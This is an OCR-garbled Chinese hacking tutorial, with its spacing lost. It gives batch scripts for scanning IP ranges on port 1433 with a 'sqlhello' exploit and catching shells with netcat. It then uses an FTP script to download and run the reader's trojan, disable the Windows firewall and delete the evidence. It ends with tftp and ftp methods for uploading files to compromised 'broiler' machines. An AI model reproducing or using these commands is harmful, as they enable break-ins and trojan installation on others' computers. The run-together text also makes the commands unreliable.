 14331000/save

@echooff

for/f"eol=;tokens=1delims="%%iin(Result.txt)dosqlhello%%i

1433xxx.xxx.xx.xx556

还要新建一个tt.txt，里面你要扫的IP段，格式为

XXX.XXX.XXX.XXXXXX.XXX.XXX.XXX,中间是空格

1433是要扫描的端口，1000是扫描线程数，dosqlhello%%i

1433xxx.xxx.xx.xx556这个里的XXX添你的IP，556是后面NC监

听的端口然后再写个批处理

@echooff

Nc-l-vv-p556>daima.txtc

echousername>>daima.txt

echopassword>>daima.txt

chobin>>daima.txt(以2进制传输数据)

echogetxxx.exe(你的木马的文件名,要放在根目录下)>>daima.txt

echobye>>daima.txt

netstopsharedaccess(关闭WINDOWS自带防火墙)

ftp-s:daima.txt

xxx.exe(也是填你木马的文件名)

deldaima.txt

注意上面的代码回车符别删掉，要不然就没法下你的马了。

几种肉鸡上传文件的方法

### tftp法

先在自己某机器上建个tftp服务器,如执行tftpd32.exe，

再将文件（sample.exe)上传到别的机器中(肉鸡），

肉鸡cmd中执行：tftp-i服务器ipgetsample.exe

### ftp法

肉鸡cmd中执行：

echoopenftp服务器ip[端口]>ftp.txt

echousername>>ftp.txt

echopassword>>ftp.txt

echogetsample.exe>>ftp.txt
